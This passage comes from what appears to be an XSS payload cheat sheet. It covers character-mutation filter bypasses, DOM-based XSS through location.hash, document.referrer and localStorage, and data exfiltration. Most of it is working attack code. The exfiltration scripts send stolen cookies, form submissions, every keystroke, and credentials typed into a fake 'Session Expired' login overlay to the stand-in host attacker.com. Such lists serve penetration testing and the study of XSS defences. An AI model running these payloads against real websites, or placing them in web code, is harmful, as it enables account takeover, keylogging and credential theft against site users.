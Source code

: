 #### Character Mutations

```html
<!-- Mutations -->
<ſcript>alert(1)</ſcript>
<script/x>alert(1)</script>
<script ~~~>alert(1)</script>

<!-- Null byte (in older browsers) -->
<img src="javascript:alert('XSS')%00.jpg">
```

### DOM-based XSS Payloads

```javascript
// location.hash exploitation
// Vulnerable code: document.write(location.hash.substring(1))
https://example.com/page.html#<img src=x onerror=alert('XSS')>

// document.referrer exploitation
// Vulnerable code: document.write(document.referrer)
<script>location='https://vulnerable.com/?'+document.cookie</script>

// localStorage exploitation
// Vulnerable code: document.write(localStorage.getItem('data'))
<script>localStorage.setItem('data', '<img src=x onerror=alert(1)>');</script>
```

### XSS for Data Exfiltration

```javascript
// Cookie stealing
<script>
fetch('https://attacker.com/steal?cookie='+encodeURIComponent(document.cookie))
</script>

// Form data extraction
<script>
document.querySelectorAll('form').forEach(form => {
  form.addEventListener('submit', function(e) {
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: new FormData(form)
    });
  });
});
</script>

// Keylogger
<script>
document.addEventListener('keypress', function(e) {
  fetch('https://attacker.com/keys?key=' + e.key);
});
</script>

// Credential harvesting via fake login form
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:#fff;z-index:9999;">
<h2>Session Expired</h2>
<form onsubmit="fetch('https://attacker.com/creds?u='+this.username.value+'&p='+this.password.value);return false">
  <input name="username" placeholder="Username">
  <input type="password" name="password" placeholder="Password">
  <input type="submit" value="Login">
</form>
</div>
```